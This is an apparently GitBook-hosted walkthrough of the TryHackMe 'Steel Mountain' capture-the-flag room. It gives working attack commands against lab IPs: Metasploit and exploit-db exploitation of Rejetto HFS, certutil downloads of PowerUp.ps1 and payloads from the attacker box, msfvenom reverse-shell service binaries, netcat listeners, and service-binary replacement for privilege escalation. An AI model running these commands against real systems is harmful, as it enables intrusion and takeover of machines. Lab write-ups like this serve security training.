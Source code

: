 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

```
nmap -A 10.10.248.189
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

```
msfconsole 
use exploit/windows/http/rejetto_hfs_exec 
set LHOST 10.10.62.157 
set RHOSTS 10.10.181.159 
set RPORT 8080
exploit
```

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -nvlp 443
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
python2 -m SimpleHTTPServer 81
python2 exploit.py 10.10.181.159 8080
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

```
cd C:\Program Files (x86)\IObit\Advanced SystemCare
sc stop AdvancedSystemCareService9 
certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe
```

**Kali**

```
nc -lvnp 4443
```

**Victim**

```
sc start AdvancedSystemCareService9
```

![](<../../.gitbook/assets/image (3) (1) (2) (1) (1) (1).png>)





